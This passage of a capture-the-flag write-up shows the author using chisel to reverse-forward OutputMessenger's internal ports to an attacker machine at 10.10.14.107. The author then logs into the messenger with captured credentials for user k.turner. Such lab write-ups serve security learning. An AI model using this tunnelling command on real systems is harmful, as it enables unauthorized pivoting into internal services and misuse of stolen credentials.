 And they seem to be related to the ports that were found at the beginning of the scan. Searching for the PID to find the responsible process shows:

![process](/Media/Images/Infiltrator/process.png)

They belong to a program called [**OutputMessenger**](https://www.outputmessenger.com/). A messaging program.

The creds for **k.turner** may be for logging into this program. So, I need to gain access through port forwarding.

## Port-Forwarding
I did it with chisel.
```powershell
.\chisel_windows.exe client 10.10.14.107:8000 R:14118:127.0.0.1:14118 R:14119:127.0.0.1:14119 R:14121:127.0.0.1:14121 R:14122:127.0.0.1:14122 R:14123:127.0.0.1:14123 R:14124:127.0.0.1:14124 R:14125:127.0.0.1:14125 R:14126:127.0.0.1:14126 R:14127:127.0.0.1:14127 R:14128:127.0.0.1:14128 R:14130:127.0.0.1:14130 R:14406:127.0.0.1:14406
```
And from a Windows (Commando-VM) I connect using the IP of my Kali, for this I download the client version app of OutputMessenger.

## Enumerate OutputMessenger as k.turner
Inside it shows information about a program they are developing **UserExplorer**.
